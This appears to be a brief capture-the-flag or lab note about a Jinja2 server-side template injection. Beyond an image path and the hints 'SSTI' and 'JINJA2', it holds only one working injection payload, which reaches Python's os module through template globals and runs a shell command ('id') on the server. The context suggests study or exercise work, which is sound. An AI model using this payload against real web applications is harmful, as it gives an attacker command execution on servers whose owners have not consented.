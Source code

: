 hint => SSTI
template Engin => JINJA2
1- payload injection  =>  "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"

